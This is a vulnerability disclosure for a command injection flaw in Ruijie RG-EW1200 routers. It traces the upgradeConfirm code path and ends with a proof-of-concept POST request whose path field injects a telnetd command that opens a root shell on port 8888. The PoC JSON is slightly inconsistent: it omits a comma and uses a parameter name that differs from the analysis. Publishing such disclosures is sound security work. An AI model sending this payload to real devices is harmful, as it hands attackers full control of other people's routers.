 # Information

**Vendor of the products:**    Ruijie Networks

**Vendor's website:**    [https://www.ruijienetworks.com](https://www.ruijienetworks.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) & ShaLetian(<ltsha@njupt.edu.cn>)

**Affected products:**	RG-EW1200 Wireless Routers

**Affected firmware version:**	EW_3.0(1)B11P204 (the latest release version, 2023.1.18)

**Firmware download address:** 	[https://www.ruijienetworks.com/support/documents/slide_77459](https://www.ruijienetworks.com/support/documents/slide_77459 "https://www.ruijienetworks.com/support/documents/slide_77459")

# Overview

A `command injection vulnerability` exists in `Ruijie Networks RG-EW1200 Wireless Routers`. Successful exploit could allow the attacker to execute arbitrary commands on remote devices.

# Vulnerability details

## Vulnerability point

**The vulnerability was detected in the file `/usr/lib/lua/luci/modules/system.lua`.**

In the `upgradeConfirm` function of `/usr/lib/lua/luci/modules/system.lua`. When `params.isEstAll` is empty, the parameter `params.path` is directly spliced through the format string `%q` into the variable `_shell` without checking and execute as a parameter of `forkExec`.

![](./pic/4.png)

Therefore, an attacker can inject arbitrary commands into `params.path` to gain control of the remote devices.

## Call flow

In the file `/usr/lib/lua/luci/controller/eweb/api.lua`, we can see `system.lua` corresponding `API` is `/system`.

![](./pic/1.png)

![](./pic/2.png)

Therefore, `system.lua` can be accessed via URL `/cgi-bin/luci/api/system`, and the request body can be posted as `json`.

In the `handle` function of `/usr/lib/lua/luci/utils/jsonrpc.lua`, use the `resolve` function to find the relevant function in `system.lua` corresponding to the `method` field of the `POST` request body. Then it calls `copcall` through `proxy` to run the function, and use the contents of `params` field as its parameter.

![](./pic/3.png)

# Poc

Send the following as a `POST` request to the URL `/cgi-bin/luci/api/system`. 

```
{
        "method": "upgradeConfirm",
        "params": {
            "isPersist": "aaaa"
            "path": "`telnetd -p 8888 -l /bin/sh`"
         }
}
```

# Attack Demo

Use `BurpSuite` to send the above `POC`. From the echo information, we can judge that the command injection is successful.

![](./pic/5.png)

At this point, we use the injection command `telnetd -p 8888 -l /bin/sh` to open the corresponding `telnet` port `8888`, and directly start the shell.

The attacker can log in to the remote device directly through `telnet` and control it entirely.

![](./pic/6.png)